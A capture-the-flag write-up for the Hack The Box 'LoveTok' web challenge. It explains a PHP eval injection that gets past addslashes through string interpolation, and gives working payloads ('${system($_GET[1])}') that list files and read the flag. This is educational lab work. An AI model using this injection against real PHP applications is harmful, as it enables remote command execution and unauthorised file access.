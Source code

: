 ```yaml
---
ref: https://www.hackthebox.com/achievement/challenge/1780054/198
category: web
---
```


# [LoveTok](https://www.hackthebox.com/achievement/challenge/1780054/198)
One of the Challenges of HTB called "LoveTok" (Category: Web).
We were given an IP+Port to a Host and also a full "fake-deployment" of it in a zip-file.

Since this is a Web-Challenge I just assumed that a website would be running on that port, I was right:

![First looks](./imgs/page.png)

The only form of interaction we currently have is this button on the bottom, let's click it:

![After click](./imgs/format.png)

The page itself didn't change but we can see that we now have a GET-Param in the URL. After fiddelingwith it a little bit and also from the name itself I quickly figured that you can define a Date-Format String for the Output below. After some professional googlin' I also figured out that the backend is most-likely a PHP-Server given how it behaves on certain format-strings (note: this could've been figured out in 0 seconds by just simply having a look at the provided zip-file first :().

Anyhow, since this is now our only form of input it virtually screams "Please hack here" - let's have a look at the provided files:

![Provided Stuff](./imgs/zipcontents.png)

Two of the files are related to our time-formatting: `TimeController.php` and `TimeModel.php`. I have added the entierty of them below and annotated them using comments:

- `TimeController.php`
    
    ```php
    <?php
    class TimeController
    {
        // Gets called from the Laravel Router whenever I visit the main webpage. 
        public function index($router)
        {
            // if no format string is provided it defaults to "r", which is why we didn't see any change on the page after the button-click
            // otherwise, our input simply gets stored into this variable
            $format = isset($_GET['format']) ? $_GET['format'] : 'r';

            // the code then creates this modal, so we want to provide a format that exploits the creation of this somehow
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }   
    ?>
    ```

- `TimeModel.php`
    
    ```php
    <?php
    class TimeModel
    {
        public function __construct($format)
        {
            // addslashes is a built-in php function that primitivly escapes some characters
            // this is supposed to sanatize our input
            $this->format = addslashes($format);

            // some random date generation
            [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
            $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
        }

        public function getTime()
        {
            // eval! so definetly some injection-potential here
            // as we can see the eval statement is supposed to take our inputs and store the result of the built-in date function into the $time variable, whose contents we ultimately get to see on the webpage
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
            return isset($time) ? $time : 'Something went terribly wrong';
        }
    }
    ?>
    ```

If we wouldn't have the `addslashes` we could very easily just inject anything by simply closing the `date`-call ourselves, appending any call we want and just commenting out the rest. But since this isn't possible (since directly providing `"` gets escaped to `\"`) we have to get a bit more creative.

Doing a quick google-search immediately provides multiple articles as to why `addslashes` does not properly sanatize input and how it can be exploited anyway! [The article I used here](https://swordandcircuitboard.com/php-addslashes-command-injection-bypass/).

To summarize: Although some characters get escaped, we can still run PHP-String interpolation and with that have access to **any variable and function that is currently in scope**. The crafts a concise command that allows us to do any command-injection that we want!

1. Add a second URL-GET-Param that contains our command-injection payload. e.g.: `http://...&1=<anything>`. Note: I thought that the article used a number as the key so that we do not have to quote it to access the value, which would've been a problem since we cannot quote anything. But we can "exploit" PHP's String-Interpolation to bypass the need of quotes (which is very cursed!)

- 


```php
<?php
$c = array("foo" => 3);
var_dump($c[foo]); // does not work, as expected
var_dump("{$c[foo]}"); // does not work, as expected
var_dump("$c[foo]"); // WORKS, only $c[] is interpolated and the rests (anything passed inside of []) is interpreted as a string! WTF!
?>
```

2. Reference the GET-Param in the original variable (which gets passed to the `eval`-function) and wrap it in a `system`-call to run arbitrary code: `system($_GET[1])`

With that we can simply take the example from the article, although I do know from the provided files that there is a flag-file on the server which looks like `/flag*` (with some random characters at the end), so we don't even have to run `ls` to find it, but let's have a look anyway:

1. List files: `?format=${system($_GET[1])}&1=ls%20/`
    ![Flag spotted](./imgs/ls.png)
2. Read file content: `?format=${system($_GET[1])}&1=cat%20/flag*`
    ![Flag gotted](./imgs/flag.png)

And there we go!
